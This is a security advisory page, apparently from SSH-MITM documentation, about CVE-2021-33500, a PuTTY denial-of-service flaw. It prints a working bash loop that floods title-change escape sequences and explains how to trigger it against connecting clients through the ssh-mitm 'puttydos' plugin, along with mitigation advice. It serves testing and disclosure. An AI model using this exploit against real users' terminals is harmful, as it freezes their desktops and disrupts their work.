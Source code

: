 .. _cve-2021-33500:

:fas:`info;sd-text-primary` :bdg-danger:`CVSS 7.5` CVE-2021-33500
=================================================================

.. card::

    :bdg-danger:`CVSS 7.5` CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
    ^^^
    PuTTY before 0.75 on Windows allows remote servers to cause a denial of service
    (Windows GUI hang) by telling the PuTTY window to change its title repeatedly at high speed,
    which results in many SetWindowTextA or SetWindowTextW calls.

    NOTE: the same attack methodology may affect some OS-level GUIs on Linux or other platforms for similar reasons.
    +++
    **Affected Software:**

    * PuTTY < 0.75


Description
-----------

A vulnerability in PuTTY < 0.75 freezes the entire, leading inevitably to a manual restart. This happens when executing
a simple command to repeatedly change the terminals title.

Set window title from terminal:

.. code-block:: bash

    $ PS1=''
    $ echo -ne "\033]0; NEW_TITLE \007"

Thus, an working exploit would be:

.. code-block:: bash

    $ PS1=''
    $ while :
    > do
    > echo -ne "\033]0; NEW_TITLE${RANDOM}  \007"
    > done


Using the injection functionality of the mitm Server, this exploit can be executed immediately when a client connects
to the mitm server via PuTTY.

Test with SSH-MITM
------------------

A proof of conecpt exploit is integrated in the extra package ssh-mitm-plugins.

You can install the required extra packages with following command:

.. code-block:: bash

    $ python3 -m pip install ssh-mitm[plugins]


After installing the plugins you can start ssh-mitm:

.. code-block:: bash

    $ ssh-mitm server --ssh-interface puttydos

When you have logged in with PuTTY to the ssh-mitm server,
ssh-mitm executed the exploit and PuTTY will freeze the desktop.



Mitigation
----------

Update PuTTY to version >= 0.75


References
----------

* https://nvd.nist.gov/vuln/detail/CVE-2021-33500
